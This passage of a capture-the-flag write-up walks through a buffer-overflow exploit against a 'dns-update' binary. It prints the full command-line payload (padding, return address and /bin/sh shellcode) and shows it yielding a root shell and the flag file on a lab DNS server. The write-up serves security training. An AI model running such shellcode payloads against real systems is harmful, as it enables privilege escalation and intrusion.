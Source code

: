 Ok, so now we have it working in gdb, we will try our input against `dns-update` **without** gdb attached. Before we do this, we need to make sure our software breakpoint `\xcc` that we used for debugging our shellcode is removed. If it is not removed, we will get a Trace/Breakpoint trap and the program will exit before our shellcode executes.

```
root@kali:~# ./dns-update ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\xeb\x89\x04\x08"+"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0e\x48\x48\x48\xcd\x80"'`
ip address part 4 is invalid
# exit
root@kali:~#
```

We get another shell! This means it should work against the version on the DMZ DNS server. We jump back to our server terminal and run dns-update with our exploit string. It works and we cat the file `/root/flag.txt` to get our final flag for the corporate penetration test section.

```
dnsmanager@DMZDNS:~$ whoami
dnsmanager
dnsmanager@DMZDNS:~$ /usr/sbin/dns-update ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\xeb\x89\x04\x08"+"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0e\x48\x48\x48\xcd\x80"'`
ip address part 4 is invalid
# whoami
root
# ls /root/flag.txt
/root/flag.txt
# cat /root/flag.txt
FLAG{CE78BF22AE9551B0133593F8F0C21616}#
```
